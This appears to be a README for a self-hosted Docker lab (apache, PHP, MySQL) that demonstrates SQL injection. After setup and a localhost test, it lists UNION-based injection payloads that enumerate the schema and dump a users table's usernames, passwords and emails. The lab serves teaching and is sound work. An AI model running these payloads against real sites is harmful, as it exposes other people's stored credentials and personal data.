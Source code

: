 # Start all three containers apache, php and mysql
docker-compose up
Notice how these 3 daemons run on PID 1 inside of each container, this is considered a best-practice for building containers!


# Test connection
curl localhost:8080

Notice now in the logs that the apache container and php containers both respond to the request, as desired:
php_1     | 172.18.0.4 -  16/Jul/2018:02:09:22 +0000 "GET /index.php" 200
apache_1  | 172.18.0.1 - - [16/Jul/2018:02:09:22 +0000] "GET / HTTP/1.1" 200 108



# Enter differnt queries

';-- 

pillows' UNION (SELECT 1,2,3,4,5 FROM dual);-- 

pillows' UNION (SELECT TABLE_NAME, TABLE_SCHEMA, 3, 4, 5 FROM information_schema.tables);-- 

pillows' UNION (SELECT COLUMN_NAME, 2, 3, 4, 5 FROM information_schema.columns WHERE TABLE_NAME = 'users');-- 

pillows' UNION (SELECT id, username, psswd, email, description FROM users);-- 



# Initialize/Reinitialize database named injectionAttack on the mysql container
docker exec -it sql_injection_mysql_1 mysql -u root -p -e "Use injectionAttack; $(cat ./mysql/db-init.sql)"
## Enter password as when prompted
